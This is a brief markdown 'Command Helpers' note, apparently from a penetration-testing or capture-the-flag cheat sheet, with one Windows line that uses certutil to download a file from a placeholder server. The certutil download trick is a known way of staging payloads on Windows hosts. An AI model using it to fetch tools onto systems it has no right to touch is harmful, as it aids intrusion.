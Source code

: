 # Command Helpers


## Windows

```cmd
certutil -urlcache -f http://<your-server-ip>/<filename> <filename> # Basically wget but for windows
```
